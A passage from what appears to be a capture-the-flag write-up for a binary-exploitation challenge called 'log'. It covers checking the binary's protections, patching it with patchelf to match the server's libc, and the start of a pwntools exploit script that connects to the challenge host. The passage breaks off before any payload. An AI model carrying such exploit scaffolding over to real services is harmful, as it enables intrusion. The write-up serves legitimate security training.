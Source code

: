 ```C
  }
  return;
}
```

Before starting the exploit, let's have a quick look at the enabled protections:
```shell
$checksec --file=log
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   61 Symbols        No    0               1               log
```

Of course, every classical protection is enabled, and the server is very likely to have ASLR.

## Exploit

### Setup

We'll start by patching the log binary to have it use the same loader and libc as the server:

```shell
$ cp log log_patched
$ chmod u+x log_patched
$ chmod u+x ld-2.35.so
$ patchelf --set-interpreter $PWD/ld-2.35.so log_patched
$ patchelf --set-rpath $PWD log_patched
```

We can also create a pwntools [exploit](./attack.py), and start immediately writing wrappers for the different actions offered by the program:
```python
#!/usr/bin/python3

from pwn import *

HOST = "log.challs.teamitaly.eu"
PORT = 29006

vuln = ELF("./log")
libc = ELF("./libc.so.6")

def start():
    global p
    if args.REMOTE:
        p = remote(HOST, PORT)
    else:
        p = process("./log_patched")

def recvmsg() -> tuple[int, bytes]:
    global p
    msgtype = u32(p.recvn(4))
    msglen = u32(p.recvn(4))
    msg = p.recvn(msglen)
    return msgtype, msg

def menu(choice:int) -> None:
    mtype, _ = recvmsg()
    assert mtype == 100
    p.send(p32(choice))

def add_req(size:int, req:bytes) -> None:
    menu(0)
    p.send(p32(size))
```
